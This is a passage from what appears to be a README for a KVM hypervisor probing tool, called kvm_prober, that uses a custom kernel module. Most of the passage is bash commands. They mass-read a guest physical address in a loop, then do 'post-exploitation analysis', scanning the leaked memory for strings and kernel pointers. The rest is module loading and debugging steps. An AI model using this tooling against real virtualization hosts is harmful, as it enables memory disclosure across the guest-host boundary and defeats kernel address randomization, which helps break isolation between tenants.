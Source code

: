 #### Method 3: GPA Mass Read
```bash
for ((i=0; i<100000; i++)); do
    kvm_prober readgpa 0x695ee10 64 >> read_samples.hex
done
```

## 📊 Monitoring & Analysis

### Real-time Monitoring
```bash
# Watch kernel logs
sudo dmesg -w | grep kvm_probe

# Monitor hypercalls
sudo dmesg | grep HYPERCALL

# Check device status
cat /proc/devices | grep kvm_probe
```

### Post-Exploitation Analysis
```bash
# Analyze read samples
cat read_samples.hex | xxd -r -p | strings | sort -u

# Find kernel pointers
cat read_samples.hex | while read hex; do
    addr="${hex:0:16}"
    [[ "$addr" =~ ^ffff[8-9a-f] ]] && echo "Kernel pointer: 0x$addr"
done

# Extract unique data
sort -u read_samples.hex > unique_samples.hex
wc -l unique_samples.hex
```

## 🔍 Debugging

### Common Issues

**Issue**: `/dev/kvm_probe_*` not found
```bash
# Check module loaded
lsmod | grep kvm_probe

# Load manually
sudo insmod kvm_probe_drv.ko

# Check dmesg for errors
sudo dmesg | tail -20
```
